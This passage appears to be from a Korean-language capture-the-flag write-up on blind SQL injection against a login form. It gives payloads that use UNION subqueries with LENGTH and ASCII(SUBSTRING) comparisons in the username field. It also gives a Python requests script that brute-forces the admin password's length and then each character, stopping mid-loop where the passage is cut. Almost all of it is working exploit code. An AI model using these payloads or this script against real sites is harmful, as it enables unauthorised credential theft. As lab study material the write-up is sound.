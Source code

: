 |

|

### 자동화 코드: find_password_length()

---

기존 자동화 코드에서 payload 수정

```python
payload= {"username": f"{username}' union select 1,2,3 from (select 1,2 as name, 3 as pw union select * from user) fxxk where name like 'admin' && length(pw) like {length} -- 1", "password": f"{password}"}
```

|

|

### 자동화 코드: find_password()

---

마찬가지로 payload 수정

```python
payload = {"username":f"{username}' union select 1,2,3 from (select 1,2 as name, 3 as pw union select * from user) xxx where name like 'admin' && ASCII(SUBSTRING(pw, {length}, 1)) like {ascii_code} -- 1", "password":f"{password}"}
```

|

|

|

## Payload

```python
import requests

# 비밀번호 길이 찾기
def find_password_length(url, username, password):
	for length in range(0, 51): # 0부터 50까지
		payload= {"username": f"{username}' union select 1,2,3 from (select 1,2 as name, 3 as pw union select * from user) xxx where name like 'admin' && length(pw) like {length} -- 1", "password": f"{password}"}
		res = requests.post(url, data=payload)
		if "Hello" in res.text:
			return length

# 비밀번호 찾기
def find_password(url, password_length, username, password):
    string = ""
    for length in range(1, password_length+1): # 비밀번호 위치 (1부터 password_length까지)
        print(f"{length}번째 문자 탐색 중...")
        for ascii_code in range(32, 127): # 아스키 코드 32부터 126까지
            payload = {"username":f"{username}' union select 1,2,3 from (select 1,2 as name, 3 as pw union select * from user) xxx where name like 'admin' && ASCII(SUBSTRING(pw, {length}, 1)) like {ascii_code} -- 1", "password":f"{password}"}
            res = requests.post(url, data=payload)
            if "Hello" in res.text:
```